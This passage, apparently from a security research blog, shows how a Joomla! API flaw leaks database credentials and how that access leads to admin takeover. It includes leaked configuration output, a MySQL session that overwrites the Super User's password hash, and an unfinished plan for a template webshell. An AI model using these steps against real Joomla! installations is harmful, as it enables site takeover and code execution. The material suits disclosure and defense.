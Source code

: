 Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display\_offline\_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline\_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"vulncheck","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes":{"list\_limit":20,"i\* Connection #0 to host 10.9.49.205 left intact\\nd":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug\_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug\_lang\_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"root","id":224}},{"type":"application","id":"224","attributes":{"password":"labpass1","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla\_db","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"xj3n0\_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}\],"meta":{"total-pages":4}}\\n\`\`\`\\n\\nIn the proof of concept above, the server responds with the credentials \`root:labpass1\`, which are the credentials for our test Joomla! MySQL account. But it’s important to know that our test MySQL server was bound to \`127.0.0.1\`, so the remote attacker can’t access the server, making the credentials mostly useless. Binding MySQL to the localhost should be the most common configuration, which severely limits this credential leak.\\n\\nHowever, it appears there are a good number of internet-facing Joomla! installations that use a MySQL server that \*isn’t\* bound to \`127.0.0.1\`. Censys shows thousands of Joomla! Servers colocated with an exposed MySQL server.\\n\\n!\[Censys query with both MySQL and Joomla\](/blog/joomla-for-rce/censys-joomla-mysql.png){:width="100%"}\\n\\nAn attacker with credentials to the MySQL server won’t automatically be able to execute arbitrary code. Old MySQL \[attack techniques\](https://sqlwiki.netspi.com/attackQueries/readingAndWritingFiles/#mysql) that manipulate local files should be unusable on any modern and/or decently configured server. But access to the MySQL server should still provide a path to code execution.\\n\\nAccess to the database allows the attacker to change the Joomla! Super User’s password. Joomla! even \[documents\](https://docs.joomla.org/How\_do\_you\_recover\_or\_reset\_your\_admin\_password%3F#Change\_the\_Password\_in\_the\_Database) how this can be done using only database access. The following demonstrates the password change to “secret” using the MySQL client.\\n\\n\`\`\`sh\\nmysql> use joomla\_db;\\nReading table information for completion of table and column names\\nYou can turn off this feature to get a quicker startup with -A\\n\\nDatabase changed\\nmysql> show tables;\\n+-------------------------------+\\n| Tables\_in\_joomla\_db |\\n+-------------------------------+\\n| xj3n0\_action\_log\_config |\\n| xj3n0\_action\_logs \\n… truncated …\\nmysql> select \* from xj3n0\_users;\\n+-----+------+---------------+-----------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+--------+---------------+------------+--------+------+--------------+--------------+\\n| id | name | username | email | password | block | sendEmail | registerDate | lastvisitDate | activation | params | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |\\n+-----+------+---------------+-----------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+--------+---------------+------------+--------+------+--------------+--------------+\\n| 552 | jake | albinolobster | albinolobster@vulncheck.com | $2y$10$GL9tEHKez5Wa6sr2CjXXmetAr6cOOo7DpE9j1KaeJCIy1UwnaYUVO | 0 | 1 | 2023-03-17 15:07:45 | 2023-03-17 16:41:04 | 0 | | NULL | 0 | | | 0 | |\\n+-----+------+---------------+-----------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+--------+---------------+------------+--------+------+--------------+--------------+\\n1 row in set (0.00 sec)\\n\\nmysql> Update xj3n0\_users SET password = "d2064d358136996bd22421584a7cb33e:trd7TvKHx6dMeoMmBVxYmg0vuXEA4199" WHERE id=552;\\nQuery OK, 1 row affected (0.00 sec)\\nRows matched: 1 Changed: 1 Warnings: 0\\n\\nmysql>\\n\`\`\`\\n\\nThe attacker can then log into the Joomla! administrative web interface. As the Super User, the attacker has two easy paths to execute arbitrary code.\\n\\n1. \[Modify a template\](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla) to include malicious PHP. The image below demonstrates the addition of a tiny webshell to \`index.php\`. This will allow the attacker to execute arbitrary code as the \`www-data\` user by sending requests to the instance’s landing page (e.g. \`curl -k